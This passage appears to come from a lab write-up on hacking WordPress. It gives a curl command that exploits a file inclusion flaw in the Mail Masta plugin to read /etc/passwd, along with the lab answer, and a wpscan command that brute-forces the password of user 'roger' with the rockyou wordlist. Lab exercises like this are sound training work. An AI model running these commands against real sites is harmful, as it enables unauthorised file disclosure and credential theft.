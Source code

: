 ```bash
curl -s "http://94.237.51.6:59835/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```
![alt text](screenshots/Hacking_Wordpress/15.PNG)

**Answer:** `sally.jones`

#### Q6: WordPress User Bruteforce
**Objective:** Brute force password for user "roger"

```bash
wpscan --password-attack xmlrpc -U roger -P /usr/share/wordlists/rockyou.txt --url http://94.237.51.6:59835
```
![alt text](screenshots/Hacking_Wordpress/16.PNG)

